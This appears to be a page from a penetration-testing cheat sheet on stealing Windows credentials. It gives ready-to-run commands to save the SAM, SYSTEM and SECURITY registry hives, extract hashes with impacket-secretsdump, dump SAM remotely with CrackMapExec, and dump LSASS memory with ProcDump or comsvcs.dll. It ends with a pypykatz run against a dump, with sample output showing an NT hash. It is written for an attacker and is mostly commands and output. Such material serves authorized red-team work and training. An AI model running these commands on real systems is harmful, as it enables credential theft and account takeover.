

# Windows

## SAM

You need to have administrator privileges to access the SAM Registry hive.

### Registry Hives

| Registry Hive | Description |
|-|-|
| `hklm\sam` | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system` | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.

### Dumping the SAM Registry Hive

Dump the SAM Registry hive using the `reg` command and transfer the files to your attacker machine.:

```batch
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

Use `impacket-secretsdump` to extract the hashes from the SAM Registry hive:

```bash
impacket-secretsdump -sam sam -system system -security security LOCAL
```

### Dumping SAM Remotely

Dump it using `CrackMapExec`:

```bash title="Dump SAM with CrackMapExec"
cme smb <ip> -u <username> -p <password> --sam
```

:::tip

The output format is `username:RID:LMHASH:NTHASH`.

:::

### Cracking the Hashes

Navigate to the [CrackMapExec Commands Cheatsheet](/commands-cheatsheet/crackmapexec#brute-forcing-credentials).

## LSASS

LSASS (Local Security Authority Subsystem Service) in Windows is a process responsible for enforcing security policies, managing user authentication, and auditing system events.

### Dumping LSASS Memory

LSASS memory dumps can pose serious security risks as they may contain sensitive information. This can include plaintext passwords, hash values, and other authentication details used in the system.

#### Task Manager

The easiest way to dump LSASS memory is to use Task Manager. You'll need UI access to the machine to do this.

1. Open Task Manager
2. Find the `Local Security Authority Process`
3. Right-click on the process and select `Create dump file`



#### ProcDump

[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) is a command-line utility that can be used to create memory dumps of processes.

:::caution ProcDump

You'll need to download ProcDump on the target machine to use it.

:::

```batch title="Using ProcDump to Dump LSASS Memory"
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

You can also avoid reading the `lsass.exe` process by dumping a cloned process instead.

```batch title="Using ProcDump to Dump LSASS Memory (Cloned Process)"
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

#### comsvcs.dll

```batch title="Using comsvcs.dll to Dump LSASS Memory"
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

You can also use the PowerShell variant of this command.

```powershell title="Using comsvcs.dll to Dump LSASS Memory (PowerShell)"
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

### Extracting Credentials

#### Pypykatz

This is the Linux version of [Mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
pypykatz lsa minidump <lsass dump file>
```

```bash title="Pypykatz Example"
pypykatz lsa minidump lsass.dmp

...SNIP...
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
...SNIP...
```